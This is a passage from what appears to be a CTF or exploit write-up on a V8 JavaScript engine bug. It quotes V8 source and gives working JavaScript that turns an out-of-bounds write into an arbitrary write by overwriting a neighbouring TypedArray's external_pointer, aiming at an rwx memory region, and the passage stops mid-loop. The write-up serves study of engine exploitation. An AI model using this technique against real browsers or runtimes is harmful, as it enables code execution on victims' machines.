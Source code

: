 > I included an extra loop to search for the correct address around the general_offset becuase the offset varies a bit between executions.

#### Leveling up OOB write to arbitrary write

Now with the `rwx` region address in hand, we need a way to write to it.

From previous writeups, the solution seems to be using an `ArrayBuffer` plus `DataView`; however, I can't get it to work likely due to changes in the v8 engine.

In the end, I used a `TypedArray`. By modifying its `external_pointer`, I am able to achieve an arbitrary write. I found this method by reading the v8 source code:

```c++
// https://github.com/v8/v8/blob/4b9b23521e6fd42373ebbcb20ebe03bf445494f9/src/elements.cc
static Object FillImpl(Handle<JSObject> receiver, Handle<Object> obj_value,
                       uint32_t start, uint32_t end) {
  Handle<JSTypedArray> array = Handle<JSTypedArray>::cast(receiver);
  DCHECK(!array->WasDetached());
  DCHECK(obj_value->IsNumeric());

  ctype value = BackingStore::FromHandle(obj_value);

  // Ensure indexes are within array bounds
  CHECK_LE(0, start);
  CHECK_LE(start, end);
  CHECK_LE(end, array->length_value());

  DisallowHeapAllocation no_gc;
  BackingStore elements = BackingStore::cast(receiver->elements());
  ctype* data = static_cast<ctype*>(elements->DataPtr()); // ← the location to fill is determined by DataPtr
  std::fill(data + start, data + end, value);
  return *array;
}

// https://github.com/v8/v8/blob/4b9b23521e6fd42373ebbcb20ebe03bf445494f9/src/objects/fixed-array-inl.h
void* FixedTypedArrayBase::DataPtr() {
  return reinterpret_cast<void*>(
      base_pointer()->ptr() + reinterpret_cast<intptr_t>(external_pointer())); // ← DataPtr = base_pointer + external_pointer
}
```

In the code below, I allocated two TypedArrays next to each other. I used the OOB write from the first one to change the `external_pointer` of the second one. After the modification, `buffer` will be able to write to the `rwx` region.

> Offsets used here are found using the same method as above (`%DebugPrint` + `gdb`)

```javascript
var d = new Uint8Array([0]);
var buffer = new Uint8Array([0]);

let other = (BigInt(rwx_addr[0])<<32n)+BigInt(rwx_addr[1])-0x80804edn;
other = [Number(other >> 32n), Number(other & 0xffffffffn)];


[m1, m2] = other;
for (let i = 0; i < 4; i++) {
  d.fill(m1&0xff, 164+0x28+4+i, 164+0x28+4+i+1);
  m1 >>= 8;
}
for (let i = 0; i < 4; i++) {
  d.fill(m2&0xff, 164+0x28+i, 164+0x28+i+1);
  m2 >>= 8;
```